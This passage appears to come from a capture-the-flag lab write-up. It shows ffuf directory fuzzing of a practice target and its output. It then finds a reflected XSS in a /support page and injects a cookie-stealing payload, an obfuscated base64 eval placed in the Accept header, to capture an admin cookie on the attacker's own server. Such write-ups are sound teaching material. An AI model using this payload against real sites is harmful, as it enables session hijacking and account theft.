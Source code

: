 ```markdown
```
Fuzz for hidden folders.
```markdown
> ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 100 -fc 404 -u http://$target:5000/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.8:5000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 288ms]
support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 187ms]
:: Progress: [4713/4713] :: Job [1/1] :: 125 req/sec :: Duration: [0:00:34] :: Errors: 0 ::
```
### USER
Browse the site with firefox, in the `/support` URI we can inject a payload.

![Untitled5](https://github.com/g1vi/AllTheWriteUps/assets/120142960/55606cbb-6df7-48e7-9c34-2f8e67378913)

A hacking protection alert is triggered, the application replies with info taken from the user HTTP request headers. This means the application is a candidate for a reflected-XSS vulnerability.

![Untitled7](https://github.com/g1vi/AllTheWriteUps/assets/120142960/62b975de-98a6-4040-acba-c23cd1b05795)

Capture an HTTP request and send to Repeater, then inject a cookie-stealing payload in any on the reflected headers such as "User-Agent", "Accept", etc. (in this case we will use the "Accept" header).
```markdown
<img src=hey onerror='eval(atob("ZmV0Y2go[...]9va2llKTs="));'></img>
```

![Untitled9](https://github.com/g1vi/AllTheWriteUps/assets/120142960/81b9d48a-66a9-4258-a741-fca22f84e0bd)

An `is_admin` cookie is received on a built-in PHP server under our control.
